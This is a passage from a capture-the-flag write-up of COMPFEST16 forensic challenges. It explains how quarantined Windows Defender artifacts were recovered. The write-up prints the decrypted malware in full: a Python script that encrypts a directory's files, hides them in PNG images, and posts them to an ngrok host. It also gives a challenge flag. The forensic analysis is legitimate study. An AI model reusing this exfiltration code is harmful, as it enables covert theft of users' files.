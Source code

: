 ![image](https://hackmd.io/_uploads/B1qQ0woIyl.png)

Look at the event log file and it is known that the .bat previously saved an SfuSKla file
![image](https://hackmd.io/_uploads/rk5NAvoIkg.png)

We just need to look for the SfuSKla file in the hash_file in the dist

`COMPFEST16{mR._H4mmz1e_s4iD_p3Ac3_0uTt!_15fe393802}`

## Forensic/Bleu de fender

The title of the challenge suggests “DEFENDER” the context I realized was Windows Defender.

Sure enough there were quarantined artifacts in the WinDef program folder.
![image](https://hackmd.io/_uploads/HJXPRwoIyg.png)

Documentation:

https://blog.fox-it.com/2023/12/14/reverse-reveal-recover-windows-defender-quarantine-forensics/ 

![image](https://hackmd.io/_uploads/ryTdAPjI1e.png)

https://github.com/zam89/Windows-Defender-Quarantine-File-Decryptor 

Decrypted Malware:
```
import zlib; import base64; import requests; import random; import string; import os; import getpass; import sys; from io import BytesIO; from Crypto.Cipher import Blowfish; from Crypto.Util.Padding import pad; from PIL import Image;
IMG = "base64 of decompressed zlib data" #< tak hapus biar wu ga kepanjangan
count = 0; paths = sorted([''.join(random.choices(string.ascii_letters, k=8)) for _ in range(len(os.listdir(sys.argv[1])))])
for file in sorted(os.listdir(sys.argv[1])):
    with open(sys.argv[1] + "/" + file, "rb") as f: binary = f.read(); binary = Blowfish.new(getpass.getuser().encode(), Blowfish.MODE_CBC, iv=base64.b64decode("a3JpcHRvZGQ=")).encrypt(pad(binary, Blowfish.block_size)); img = Image.open(BytesIO(zlib.decompress(base64.b64decode(IMG))));pixels = img.load();countf=0;bit_string = ''.join(f'{b:08b}' for b in binary);assert len(bit_string) < img.height * img.width * 3;prev='0'
    for y in range(img.height):
        for x in range(img.width):
            r, g, b, a = pixels[x,y]
            new_r = (r & 0xFE) | int(bit_string[countf]) if countf < len(bit_string) else r; new_g = (g & 0xFE) | int(bit_string[countf + 1]) if countf + 1 < len(bit_string) else g; new_b = (b & 0xFE) | int(bit_string[countf + 2]) if countf + 2 < len(bit_string) else b
            pixels[x,y] = (new_r, new_g, new_b); countf += 3
    new = BytesIO(); img.save(new, format="PNG"); new.seek(0); new = new.read(); requests.post(f"http://c541-103-129-16-195.ngrok-free.app/{paths[count]}", data=new);count+=1
```

`username: adminganteng`

Let's just tidy it up:

```
#!/usr/bin/env python3

import zlib
import base64
import requests
import random
import string
import os
import getpass
import sys
from io import BytesIO
from Cryptodome.Cipher import Blowfish
from Cryptodome.Util.Padding import pad
```